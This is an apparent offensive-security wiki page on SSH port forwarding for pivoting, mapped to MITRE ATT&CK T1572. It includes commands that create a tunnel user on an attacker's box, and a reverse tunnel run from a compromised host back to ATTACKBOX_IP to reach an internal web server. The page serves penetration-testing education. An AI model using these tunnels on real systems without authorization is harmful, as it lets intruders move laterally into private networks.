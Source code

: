 ```yaml
---
description: MITRE ATT&CK™ Protocol Tunneling  - ID T1572 
---
```

# Port Forwarding

## Theory
Port Forwarding, consist of using any compromised host as a jump box to pivot to other hosts. It is expected that some machines will have more network permissions than others.

### SSH tunneling
SSH port forwarding is a mechanism in SSH for tunneling application ports from the client machine to the server machine, or vice versa.


## Practice
Since we'll be making a connection back to our attacker's machine, we'll want to create a user in it without access to any console for tunnelling and set a password to use for creating the tunnels:

```bash
useradd tunneluser -m -d /home/tunneluser -s /bin/true
passwd tunneluser
```
{% tabs %}
{% tab title="SSH Local-Forwarding" %}
Local forwarding is used to **forward a port from the client machine to the server machine**. Basically, the SSH client listens for connections on a configured port, and when it receives a connection, it tunnels the connection to an SSH server. The server connects to a configurated destination port, possibly on a different machine than the SSH server.  
  
This example opens a connection to the jump-server.net, and forwards any connection to port 80 on the local machine to port 80 on intra.example.com.
```bash
veresk@kali$ ssh -L *:80:intra.example.com:80 user@jump-server.net -fN
```
{% endtab %}

{% tab title="SSH Remote-Forwarding" %}
Remote port forwarding allows a client machine of an SSH connection to redirect one of its ports to a port on the server, or to redirect a port of a network machine from the SSH server to a port local to the server.  
  
We can by, example, on a compromised computer (jump-server) connect back to the attackbox with a reverse port forward using the following command.  
This example produce the same result as previously seen with Local-Forwarding. Any connection on ATTACKBOX_IP:8000 will be redirected on intra.example.com:80
```bash
PC> ssh -R 8000:intra.example.com:80 veresk@ATTACKBOX_IP -fN
```
{% endtab %}


{% endtabs %}

## Resources

{% embed url="https://attack.mitre.org/techniques/T1572/" %}
{% embed url="https://podalirius.net/en/articles/ssh-port-forwarding/" %}

